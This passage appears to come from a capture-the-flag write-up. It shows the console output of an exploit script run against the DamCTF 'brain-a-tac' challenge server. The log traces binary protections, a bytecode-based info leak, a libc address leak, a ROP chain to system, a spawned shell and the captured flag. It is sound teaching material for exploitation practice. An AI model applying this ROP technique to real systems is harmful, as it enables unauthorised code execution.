 Here's how it looks like:

```
# ./exploit.py REMOTE
[*] '/shared/brain-a-tac/bf_patched'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    RUNPATH:    b'.'
[*] '/shared/brain-a-tac/libc.so.6'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    FORTIFY:    Enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
    Debuginfo:  Yes
[!] Did not find any GOT entries
[*] '/shared/brain-a-tac/ld-linux-x86-64.so.2'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
[+] Opening connection to brain-a-tac.chals.damctf.xyz on port 31337: Done
[*] modifying bytecode to get an info leak loop
[+] bytecode modified! we now have info leak loop
[*] starting info leak loop...
[*] injecting write loop bytecode
[+] write loop injected!
[*] resuming info leak... this will take a while
[!] if the dots get printed in short bursts, CANCEL IT AND RE-RUN. this only happens in remote
... tons of dots here but i removed them for the writeup ...
[*] hex(libc.address)='0x7fe2e41d3000'
[*] Loaded 116 cached gadgets for './libc.so.6'
0x0000:   0x7fe2e41fba93 ret
0x0008:   0x7fe2e42ec03c pop rdi; ret
0x0010:   0x7fe2e43ac44a [arg0] rdi = 140612468393034
0x0018:   0x7fe2e422df30 system
[*] writing ROP chain using our new write loop
[+] ROP chain injected!
[*] stopping program
[+] shell spawned
[*] for remote, we're only using the shell to print the flag
[+] Found the flag: dam{im_r3411y_g1ad_i_didnt_g0_w1th_ma1bo1g3_f0r_th1s_cha11}
[*] Closed connection to brain-a-tac.chals.damctf.xyz port 31337
```
